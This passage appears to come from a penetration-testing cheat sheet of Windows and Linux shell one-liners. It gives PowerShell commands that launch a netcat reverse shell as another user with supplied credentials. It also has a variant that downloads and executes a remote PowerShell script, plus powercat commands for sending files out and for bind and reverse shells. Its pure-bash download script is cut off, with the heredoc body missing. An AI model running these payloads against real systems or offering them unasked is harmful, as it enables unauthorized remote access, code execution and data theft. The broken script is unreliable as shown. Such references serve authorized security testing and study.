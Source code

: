 ```
powershell.exe -c "$user='<username>'; $pass='<password>'; try { Start-Process -FilePath 'C:\<path to nc>.exe' -ArgumentList '-nv','<LHOST>','<LPORT>','-e','cmd.exe' -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```

#### Reverse shell as another user - download and execute version

Generate a reverse shell payload to be executed by powershell as another user

```
powershell.exe -c "$user='<user>'; $pass='<pass>'; try { Invoke-Command -ScriptBlock { iex(New-Object Net.WebClient).DownloadString('http://<path to .ps1>') } -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1"
```

## Powercat

#### Transfer file

```
powercat -c <ip> -p <port> -i <file>      #send file
powercat -lp <port> -of <file>            #receive file
```

#### Bind shell

```
powercat -lp <port> -e cmd.exe
```

#### Reverse shell

```
powercat -c <ip> -p <port> -e cmd.exe
```

## Bash

#### Download file

{% content-ref url="linux/connection.md" %}
[connection.md](linux/connection.md)
{% endcontent-ref %}

#### Download file script (pure bash)

A script that downloads a file from a remote server without invoking any external script/program, not even linux standard ones.

Save it:

```
cat > /tmp/get
EOF
chmod +x /tmp/get
/tmp/get <url>
```
